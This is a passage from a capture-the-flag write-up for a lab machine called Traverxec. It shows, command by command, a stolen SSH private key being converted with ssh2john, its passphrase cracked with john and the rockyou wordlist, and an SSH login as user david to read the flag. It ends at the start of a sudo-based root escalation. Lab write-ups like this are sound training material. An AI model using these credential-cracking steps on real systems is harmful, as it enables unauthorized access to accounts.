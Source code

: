 ```
root@kali:~/home/david/.ssh# python ~/Tools/ssh2john.py id_rsa > id_rsa_hash
root@kali:~/home/david/.ssh# ls -lah
total 24K
drwx------ 2 1000 1000 4.0K Dec 15 19:55 .
drwxr-xr-x 3 root root 4.0K Dec 12 20:27 ..
-rw-r--r-- 1 1000 1000  397 Oct 25 17:02 authorized_keys
-rw------- 1 1000 1000 1.8K Oct 25 17:02 id_rsa
-rw-r--r-- 1 root root 2.5K Dec 15 19:55 id_rsa_hash
-rw-r--r-- 1 1000 1000  397 Oct 25 17:02 id_rsa.pub
root@kali:~/home/david/.ssh# john id_rsa_hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
1g 0:00:00:06 DONE (2019-12-15 19:56) 0.1547g/s 2220Kp/s 2220Kc/s 2220KC/sa6_123..*7¡Vamos!
Session completed
root@kali:~/home/david/.ssh# 
```

After running john and the `rockyou.txt` wordlist to try and crack the key, we get `hunter`. Now that we've got the got the keys and the credentials to use them, we can ssh in as David and grab the flag.

```
root@kali:~/home/david/.ssh# ssh david@traverxec.htb

Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Sun Dec 15 19:54:38 2019 from 10.10.15.105
david@traverxec:~$ 
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ cat user.txt
7db0b48469606a42cec20750d9782f3d
```


## Root Flag  
David's home directory has a directory within it called `/bin`, which sticks out immediately. Exploring that directory we find `server-stats.sh`. This file appears to use the sudo command, as seen on the last line below.

```
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~/bin$ ls
journalctl  server-stats.head  server-stats.sh
david@traverxec:~/bin$ cat server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
david@traverxec:~/bin$ 
```
